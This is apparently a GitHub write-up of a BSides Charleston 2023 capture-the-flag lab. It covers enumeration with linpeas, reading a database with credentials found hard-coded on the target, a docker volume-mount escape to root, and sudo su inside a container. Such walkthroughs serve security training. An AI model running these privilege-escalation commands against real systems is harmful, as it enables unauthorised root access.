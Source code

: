 # BSIDES-CHARLESTON-CTF-2023-writeup

This is my writeup for the BSides Charleston CTF that took place on 11-4-2023. My team (l0wg4ng) and I were tasked to obtain 3 flags from a target machine which we had to SSH into. There was no initial foothold required as they supplied us with the SSH credentials. NOTE: The first flag had a hint before the CTF which mentioned it is found in a mysql database.

## Enumeration

After logging into the machine via SSH, I transferred over linpeas.sh via scp to check how I could privesc as soon as I got in.

```
scp linpeas.sh kingpwn@10.10.10.204:/tmp/linpeas.sh 
```

After running linpeas, I noticed that it picks up docker as a possible privesc point. I decide to focus on that later.

![1-linpeas-output.png](1-linpeas-output.png)

## Flag 1

I run `sudo -l` and notice that the current user can run tickets.py without a password. 

![2-sudo-l.png](2-sudo-l.png)

There is also a python script in the home directory which has this script that has a username and password. I also remember there being a mysql db that we had to access from the hints.

```
import mysql.connector

def create_ticket(title, description):
    user = 'dbtickets'
    password = 'ayuaiJ5YJ3XNn8'

    connection = mysql.connector.connect(
        host="localhost",
        user=user,
        password=password,
        database="ticketDB"
    )

    cursor = connection.cursor()

    
    flag = input("Enter A Severity Flag: High or Low: ")

    ticket = (title, description, flag)
    query = "INSERT INTO tickets (title, description, flag) VALUES (%s, %s, %s)"

    cursor.execute(query, ticket)
    connection.commit()

    print(f"Ticket Created: {title}")
    cursor.close()
    connection.close()

if __name__ == "__main__":
    title = input("Enter Ticket Title: ")
    description = input("Enter Ticket Description: ")
    create_ticket(title, description)

```

When trying to access the mysqldb with the creds above, I get an error that I can't run mysql on this machine. My teammate was able to create a python script that would be able to connect to the mysqldb and allow us to get the first flag.

The working script is below:
```
import mysql.connector

def query_database(query):
    user = 'dbtickets'
    password = 'ayuaiJ5YJ3XNn8'
    database = 'ticketDB'  # Replace with your actual database name

    # Establish a database connection
    connection = mysql.connector.connect(
        host="localhost",
        user=user,
        password=password,
        database=database
    )

    cursor = connection.cursor()

    # Execute the query
    try:
        cursor.execute(query)
        if cursor.with_rows:
            # Fetch the results and print them
            results = cursor.fetchall()
            for row in results:
                print(row)
        else:
            print("Query executed successfully")
    except mysql.connector.Error as err:
        print(f"Error: {err}")

    # Close the cursor and connection
    cursor.close()
    connection.close()

if __name__ == "__main__":
    while True:
        query = input("Enter your SQL query (or type 'exit' to quit): ")
        if query.lower() == 'exit':
            break
        query_database(query)

```

We named the script db.py and executed it, and were able to obtain the first flag.

![3-first-flag.png](3-first-flag.png)

## Flag 3

I actually found the 3rd flag before getting the 2nd one. So I am jumping ahead for now. Remembering the local enumeration I did before with linpeas, there is a potential docker escape privesc that I can run here.

I checked GTFObins and found this one:
https://gtfobins.github.io/gtfobins/docker/

I then ran this command to get the 3rd flag:
`docker run -v /:/mnt --rm -it alpine chroot /mnt sh`

![4-docker-privesc.png](4-docker-privesc.png)

I confirmed that I can read the flag for the root user.

![5-third-flag.png](5-third-flag.png)


## Flag 2

There is still a 2nd flag that I skipped, and remembering there is a docker container in this machine. I run the following commands to check and also access the container with a bash shell:
```
docker ps
docker exec -it 8269fa564b7e bash
```
![6-docker-ps.png](6-docker-ps.png)

As soon as I get into the container, I check with `sudo -l` and see another potential privesc path.

![7-sudo-l-docker.png](7-sudo-l-docker.png)

I run the following command to privesc to root and get the final flag. 
`sudo /usr/bin/su`

![8-final-flag.png](8-final-flag.png)

I checked my dashboard and see that we have submitted all the necessary flags for this CTF.

![9-final-score.png](9-final-score.png)
